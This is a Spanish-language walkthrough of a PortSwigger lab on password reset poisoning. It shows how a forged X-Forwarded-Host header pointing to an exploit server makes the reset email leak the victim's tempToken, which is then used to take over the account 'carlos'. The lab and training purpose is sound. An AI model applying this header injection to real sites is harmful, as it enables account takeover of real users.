







# 🔓 Poisoning en reset de contraseña vía middleware

## 📄 Descripción del laboratorio

Este laboratorio es vulnerable a **password reset poisoning** debido a un fallo en cómo el backend construye los enlaces de reseteo cuando hay un **middleware o proxy delante de la aplicación**.

El usuario `carlos` hará clic automáticamente en cualquier enlace que reciba por correo, lo que permite capturar su **token de reseteo** y tomar control de su cuenta.

🎯 **Objetivo del laboratorio:**

* Capturar el token de reset de contraseña de `carlos`
* Cambiar su contraseña
* Iniciar sesión como `carlos`

Credenciales disponibles:

```
Usuario propio: wiener:peter
```

También se dispone de acceso al **Exploit Server** para capturar peticiones.


## 📚 Teoría

Este laboratorio es una variante de **Host Header Injection**, pero el problema se produce en una cabecera usada habitualmente por proxies y middleware:

```http
X-Forwarded-Host
```

En arquitecturas reales, las aplicaciones suelen estar detrás de:

* Proxies reversos
* Load balancers
* CDNs

Por ello, el backend suele confiar en cabeceras como:

```http
X-Forwarded-Host
X-Forwarded-Server
X-Forwarded-Proto
```

En este laboratorio, la aplicación utiliza directamente `X-Forwarded-Host` para construir enlaces absolutos enviados por correo, por ejemplo:

```
https://<X-Forwarded-Host>/forgot-password?tempToken=XXXX
```

Sin validación ni whitelist del dominio.

Esto permite:

* Inyectar un **dominio controlado por el atacante**
* Generar un enlace de reset que apunta a ese dominio
* Cuando el usuario hace clic, el token se envía a nuestro servidor
* Podemos reutilizar el token en el dominio legítimo


## 📝 Práctica

### 1️⃣ Análisis inicial del reset

Iniciamos sesión con:

```
wiener : peter
```

Accedemos a:

```
/forgot-password
```

Solicitamos un reset para nuestro usuario.

Recibimos un email con un enlace similar a:

```
https://lab-id.web-security-academy.net/forgot-password?tempToken=XXXX
```

<br>


### 2️⃣ Prueba de inyección en X-Forwarded-Host

Interceptamos la petición `POST` enviada al solicitar el reset y la enviamos a **Burp Repeater**.

Añadimos la cabecera:

```http
X-Forwarded-Host: test.com
```

Enviamos la petición.

<br><br>
Revisamos el email recibido.

El enlace ahora aparece como:

```
https://test.com/forgot-password?tempToken=XXXX
```

<br><br>
Esto confirma que el backend **confía en el valor de `X-Forwarded-Host` para generar el enlace**.


### 3️⃣ Ataque contra el usuario carlos

Solicitamos un reset para:

```
carlos
```

Interceptamos la petición y añadimos:

```http
X-Forwarded-Host: exploit-xxxx.exploit-server.net
```

(donde `exploit-xxxx` es el dominio proporcionado por PortSwigger).

Enviamos la petición.

<br>


### 4️⃣ Captura del token

El laboratorio simula que `carlos` hace clic en el enlace recibido.

Abrimos el **Access log del Exploit Server**.

Aparece una petición como:

```http
GET /forgot-password?tempToken=xxxxxxxxxxxxxxxxxxxx HTTP/1.1
Host: exploit-xxxx.exploit-server.net
```

<br><br>
Copiamos el valor del parámetro:

```
tempToken
```


### 5️⃣ Reset real de la contraseña

Construimos la URL legítima del laboratorio:

```
https://lab-id.web-security-academy.net/forgot-password?tempToken=xxxxxxxxxxxxxxxxxxxx
```

La abrimos en el navegador.

Aparece la página para definir una nueva contraseña.

<br><br>
Introducimos una contraseña nueva, por ejemplo:

```
123456
```


### 6️⃣ Login como carlos

Volvemos al formulario de login e iniciamos sesión con:

```
usuario: carlos
contraseña: 123456
```

Accedemos correctamente a su cuenta.


### 7️⃣ Resultado

Se consigue:

* Envenenar el enlace de reset mediante `X-Forwarded-Host`
* Capturar el token de reseteo de `carlos`
* Cambiar su contraseña
* Obtener acceso completo a su cuenta

✅ **Laboratorio resuelto.**

<br>
